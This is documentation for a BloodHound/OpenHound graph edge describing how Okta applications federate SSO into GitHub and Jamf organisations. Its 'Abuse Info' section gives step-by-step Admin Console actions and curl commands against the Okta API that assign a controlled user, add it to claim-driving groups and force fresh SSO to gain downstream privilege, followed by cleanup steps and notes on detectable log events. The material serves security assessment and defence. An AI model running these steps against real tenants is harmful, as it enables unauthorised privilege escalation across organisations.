

## General Information

The traversable Okta_OutboundOrgSSO edges represent federated SSO relationships from Okta applications to supported external organizations or tenants, such as GitHub Enterprise Cloud or Jamf Pro, using protocols such as SAML 2.0 or OIDC.


```mermaid
graph LR
  subgraph okta["OpenHound Okta"]
    direction TB
    o("Okta_Organization contoso.okta.com")
    app1("Okta_Application GitHub Enterprise Cloud")
    app2("Okta_Application Jamf Pro SAML")
    o -- Okta_Contains --> app1
    o -- Okta_Contains --> app2
  end
  subgraph "GitHub"
    direction TB
    ghorg("GH_Organization Contoso")
    app1 -- Okta_OutboundOrgSSO --> ghorg
  end
  subgraph "Jamf"
    direction TB
    jamf("jamf_SSOIntegration contoso.jamfcloud.com-SSO")
    app2 -- Okta_OutboundOrgSSO --> jamf
  end
```

The respective BloodHound collectors, such as OpenHound GitHub for GitHub organizations and OpenHound Jamf for Jamf Pro tenants, must be used to gather the external node information.

## Abuse Info

An attacker who controls the source Okta application can influence how users authenticate to the destination organization. An attacker who controls an assigned Okta user can use the source application to access the destination organization through federated SSO. The edge is organization-level, so the exact privilege depends on the downstream account, group, role, and claim mapping.

There are two common abuse paths:

1. User path: compromise or add an Okta user assigned to the source application, then launch SSO into the destination organization.
2. App-admin path: use `Okta_AppAdmin`, `Okta_ManageApp`, `Okta_OrgAdmin`, or `Okta_SuperAdmin` to change SAML/OIDC claims, username mapping, group assignments, or signing material so the destination organization grants elevated access.

Using the Admin Console:

1. Identify the Okta application that fronts the destination organization.
2. Gain access to an assigned Okta user, or gain administrative control of the source application.
3. Open **Applications** > **Applications** and select the source application.
4. Review app assignments, sign-on mode, SAML/OIDC settings, username mapping, group claims, and any downstream role mapping.
5. If using the user path, sign in as the assigned user and launch the app.
6. If using the app-admin path, add a controlled user or group assignment and adjust only the claim or group input needed for the downstream role.
7. Complete SSO into the destination organization and verify the downstream organization role, group, or administrative permission.

Using the Okta API:

1. Set variables for the source application, controlled user, and optional group used to drive downstream claims.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_APP_ID="0oa..."
    export CONTROLLED_USER_ID="00u..."
    export CLAIM_GROUP_ID="00g..."
    ```

2. Retrieve and save the source app configuration.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID" \
      | tee /tmp/okta-outbound-org-sso-app-original.json \
      | jq '{id, label, name, status, signOnMode, settings: .settings.signOn}'
    ```

3. Assign the controlled user directly to the source app if the abuse path requires a temporary app assignment.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"id\":\"$CONTROLLED_USER_ID\"}" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/users" \
      | jq '{id, status, scope, syncState, profile}'
    ```

4. Add the controlled user to a claim-driving Okta group if the destination organization maps that group claim to privilege.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CLAIM_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

5. Verify the controlled user's app assignment and group membership.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/users/$CONTROLLED_USER_ID" \
      | jq '{id, status, scope, syncState, credentials, profile}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CLAIM_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login, .status] | @tsv'
    ```

6. Revoke the controlled user's sessions to force a fresh login and fresh SAML/OIDC claims.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

7. Launch the source app in a browser as the controlled user and verify the downstream organization access. Use the downstream organization's API or admin UI to confirm role and group state because Okta cannot prove how the destination interpreted the assertion.

Changing the source app's SAML/OIDC endpoints, signing certificates, or claim mapping can be more powerful, but it is also more disruptive. Save the original app object before any change and restore it during cleanup.

## Cleanup after Abuse

Cleanup for `Okta_OutboundOrgSSO` means restoring the source application's SAML/OIDC configuration and assignments, removing temporary claim-driving group state, and revoking downstream organization sessions, tokens, users, groups, or roles created by the SSO path.

Cleanup using Admin Console:

1. Open the source Okta application.
2. Restore original SAML/OIDC endpoints, signing material, username mapping, claim mappings, and assignments.
3. Remove temporary Okta users or groups used for the SSO flow.
4. Revoke Okta sessions for the controlled user.
5. In the downstream organization, remove temporary users, groups, roles, API tokens, or sessions created by the assertion.
6. Verify the controlled user can no longer reach the destination organization or no longer receives elevated roles.

Cleanup using API:

1. Restore the saved source app configuration if sign-on settings or claims changed.

    ```bash
    curl -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-outbound-org-sso-app-original.json \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID" \
      | jq '{id, label, status, signOnMode, settings: .settings.signOn}'
    ```

2. Remove the temporary direct app assignment.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/users/$CONTROLLED_USER_ID"
    ```

3. Remove the temporary claim-driving group membership.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CLAIM_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Revoke Okta sessions and OAuth tokens for the controlled user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the assignment and group membership are gone.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SOURCE_APP_ID/users/$CONTROLLED_USER_ID"

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CLAIM_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

6. Use the downstream organization's API to remove temporary roles, groups, users, sessions, or tokens.

## Opsec Considerations

Okta records application assignment changes, group membership changes, app sign-on configuration changes, `policy.evaluate_sign_on`, and SSO launches such as `user.authentication.sso`. The destination tenant records federated login, JIT account creation, group or role assignment, and token issuance.

Administrative changes to a production SAML/OIDC app are high risk. Signing certificate rotation, ACS/redirect URI changes, username mapping changes, or unusual group claims can break SSO for legitimate users and produce immediate help desk noise.

## References

- [Okta SAML SSO integration guide](https://developer.okta.com/docs/guides/build-sso-integration/saml2/main/)
- [Okta OIDC app integration guide](https://developer.okta.com/docs/guides/create-an-app-integration/openidconnect/main/)
- [Okta Applications API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Application/)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Application Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationGroups/)
- [Okta Group API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
